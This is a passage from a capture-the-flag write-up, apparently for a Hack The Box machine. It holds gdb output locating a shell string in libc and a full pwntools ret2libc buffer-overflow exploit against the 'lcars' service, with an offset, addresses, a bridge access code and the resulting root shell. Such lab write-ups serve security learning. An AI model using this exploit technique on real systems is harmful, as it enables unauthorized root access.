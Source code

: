 ```bash
#       first one which is 0xf7f6ddd5.
(gdb) find &system,+9999999, "sh"                                  
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.
```

The lcars service is reachable from attacker machine, so we will use pwn tools to generate our exploit.

```python
#!/usr/bin/env python3

from pwn import *

# eip offset = 212

system = p32(0xf7e4c060)
exit = p32(0xf7e3faf0)
binsh = p32(0xf7f72582)

path = b"A"*212 + system + exit + binsh

r = remote("10.10.10.61", 32812)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")
r.sendline(path)
r.interactive()
```

Launchine it immediately gives us a shell as root.

```bash
➜  lcars ./bof.py
# [...redacted...]

$ id
uid=0(root) gid=0(root) groups=0(root)
$ wc -c /root/root.txt
33 /root/root.txt
$  
```

## Alternatives
HTB official walkthrough do this exploitation in another way. It didn't use re2libc but It made use of environment variables and classic linux buffer overflow exploit sandwich:

